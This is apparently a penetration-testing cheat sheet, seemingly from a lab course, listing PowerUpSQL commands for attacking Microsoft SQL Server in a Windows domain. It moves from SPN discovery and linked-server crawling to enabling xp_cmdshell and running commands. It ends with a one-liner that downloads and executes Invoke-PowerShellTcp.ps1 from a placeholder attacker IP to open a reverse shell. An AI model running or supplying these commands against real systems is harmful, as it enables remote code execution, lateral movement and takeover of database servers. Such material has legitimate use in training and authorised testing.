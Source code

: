 #### Discovery SPN scanning
```
Get-SQLInstanceDomain
```

#### Check accessibility
```
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded – Verbose
```

#### Gather information
```
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

#### Search for links to remote servers
```
Get-SQLServerLink -Instance <sql instance> -Verbose
```

#### Enumerate database links
```
Get-SQLServerLinkCrawl -Instance <sql instance> -Verbose
```

#### Enable xp_cmdshell
```
Execute(‘sp_configure “xp_cmdshell”,1;reconfigure;’) AT “<sql instance>”
```

#### Execute commands
```
Get-SQLServerLinkCrawl -Instance <sql instance> -Query "exec master..xp_cmdshell 'whoami'"
```

#### Execute reverse shell example
```
Get-SQLServerLinkCrawl -Instance dcorp-mssql.dollarcorp.moneycorp.local -Query "exec master..xp_cmdshell 'Powershell.exe iex (iwr http://xx.xx.xx.xx/Invoke-PowerShellTcp.ps1 -UseBasicParsing);reverse -Reverse -IPAddress xx.xx.xx.xx -Port 4000'"
```
